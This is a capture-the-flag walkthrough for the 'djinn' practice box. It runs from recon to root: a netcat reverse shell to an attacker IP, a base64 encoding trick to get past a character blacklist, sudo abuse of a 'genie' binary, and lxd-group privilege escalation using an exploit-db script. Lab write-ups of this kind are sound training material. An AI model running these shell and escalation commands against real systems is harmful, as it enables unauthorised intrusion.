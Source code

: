 # djinn
> Intermediate level vulnerable box.

# ⬇ Start ⬇
## Recon
### Nmap
```
sudo nmap -A -T4 -p- 10.10.214.152
```
[nmap_log](nmap.txt)  
Open ports are:
- 21 - ftp with anonymous login
- 22
- 1337 - some game
- 7331 - web 

### Ftp
We got 3 files. `creds.txt` - creds for nitu,  
`game.txt` - game on port `1337`  
and `message.txt` - a message about some guy went for a holiday and some other needs to take care of his/her work.  
![oh yes](https://media.giphy.com/media/21I7j6xSyuTHUNiRdp/giphy.gif)

### Dirsearch
![dirsearch](dirsearch.png)  
We got code execution in the dir!!!  
![ez](https://media.giphy.com/media/Rl9Yqavfj2Ula/giphy.gif)  
For example if we type `id` and press execute we got the *403 page* BUT there is a *lil black text* says we are **www-data**!  
![rce](rce.png)

## Getting a shell
Lets exploit this ***RCE***!  
We just need a reverse shell
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.22.204 9998 >/tmp/f
```
We got *Wrong choice of words* that means some chars are blacklisted
Blacklisted chars are: `.`, `/`, `$` and `*`

We have to ***bypass*** the blacklist!  
We can encrypt our revshell as base64 and just echo on the box then decrypt then just execute.
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.22.204 9998 >/tmp/f" | base64

cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuOC4yMi4yMDQgOTk5OCA+L3RtcC9mCg==
```
Now we have to enter it to the wish textbox:
```
echo "cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuOC4yMi4yMDQgOTk5OCA+L3RtcC9mCg==" | base64 -d | bash
```
And we got the shell as `www-data`

## Going further, getting user
Look for interesting things in the files :D  
We got the *CREDS* variable from from the source!  
Update the shell to be able to use su:
```
python -c 'import pty;pty.spawn("/bin/bash")'
```
Just su to nitish with the pw we got!  
![shell](shell.png)  
And we got the user flag from `/home/nitish/user.txt`  

## Privesc to sam
More recoooon!!  
![ah shit here we go again](https://media.giphy.com/media/8vIFoKU8s4m4CBqCao/giphy.gif)  
Nah we dont have to do too much just run `sudo -l` ;)  
![sudo](sudo.png)  
So we can run this as user `sam` without any password!!
```
sudo -u sam /usr/bin/genie
```
Lets see a man page first or a help:
```
man genie
```
or `sudo -u sam /usr/bin/genie -h`
In the man page we can see an extra option `-cmd`  
Lets try it!
```
sudo -u sam /usr/bin/genie -cmd asd
```
![shell_sam](shell_sam.png)  
AAAAnd we got a shell as **sam**  

## Privesc to root
Get a normal shell with the *python pty* trick!  
Then just `sudo -l` as always :D  
![sudo_sam](sudo_sam.png)

```
sudo -u root /root/lago
```
Nothing interesting. This program is just roasting us xD

### Lets run a linenum!
We got in the last line that we have the lxd group and maybe we can do some nasty things with it  
So head over to [exploit-db](exploit-db.com) and search for lxd!  
We got only [one](https://www.exploit-db.com/exploits/46978)  
Lets try it ! :D  

### Getting apt with docker :D
Just pull ubuntu and execute `bash build-alpine` there.
```
docker pull ubuntu
sudo docker run -it --rm -v $(pwd):/data library/ubuntu /bin/bash

cd data
bash build-alpine
```
Now we have the `alpine*.tar.gz` file for the exploit.

### Exploiting
Upload the `.tar.gz` file to the box and run the exploit!
```
./exploit.sh -f alpine-v3.11-x86_64-20200227_1505.tar.gz
```
We got some permission errors so go back to **nitish's** profile and chmod 777 everything in `/home/nitish/.config`
```
su nitish
cd ~
chmod -R 777 .config
exit
```
Just run the exploit:
```
./exploit.sh -f alpine-v3.11-x86_64-20200227_1505.tar.gz
```
![damn](https://media.giphy.com/media/voOhKPgzYsyPu/giphy.gif)  
![root](root.png)

# Got root and the root flag from `/mnt/root/root/proof.sh`
![proof](proof.png)
